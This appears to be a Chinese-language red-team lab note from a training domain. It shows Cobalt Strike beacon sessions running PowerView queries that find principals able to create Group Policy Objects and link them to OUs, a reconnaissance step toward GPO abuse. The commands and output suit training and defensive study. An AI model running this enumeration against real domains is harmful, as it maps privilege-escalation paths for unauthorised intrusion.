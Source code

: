 # Group Policy

使用 PowerView 查询将显示可以在域中创建新 GPO 的主体的安全标识符 (SID)

```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 145572 bytes
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
[*] Tasked beacon to run: Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
[+] host called home, sent: 861 bytes
[+] received output:
#< CLIXML


ObjectDN              : CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
```

根据sid反查名称
```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[+] host called home, sent: 449 bytes
[+] received output:
#< CLIXML
DEV\1st Line Support

```

此查询将返回可以写入 OU 上的 GP-Link 属性的主体
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
[*] Tasked beacon to run: Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
[+] host called home, sent: 773 bytes
[+] received output:
#< CLIXML


ObjectDN           : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 1,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 2,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

```
